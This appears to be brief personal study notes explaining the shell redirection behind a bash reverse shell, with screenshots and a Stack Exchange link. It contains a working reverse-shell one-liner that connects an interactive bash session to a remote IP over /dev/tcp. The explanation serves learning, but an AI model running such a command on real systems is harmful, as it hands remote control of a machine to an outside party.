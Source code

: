 ## Redirect

```shell
$ bash -i &> /dev/tcp/10.3.0.13/222 0>&1
```

`&> file` == `> file 2>&1`

`0>&1` == `0<&1` or `<&1`



https://unix.stackexchange.com/questions/521596/what-does-the-01-shell-redirection-mean

## Reverse Shell

### redirecting standard output

![image-20200526153528997](https://raw.githubusercontent.com/lc1838228782/pics/master/img/image-20200526153528997.png)

### redirect standard input & output

![image-20200526153551069](https://raw.githubusercontent.com/lc1838228782/pics/master/img/image-20200526153551069.png)

### redirecting standard error, input and output

![image-20200526153712173](https://raw.githubusercontent.com/lc1838228782/pics/master/img/image-20200526153712173.png)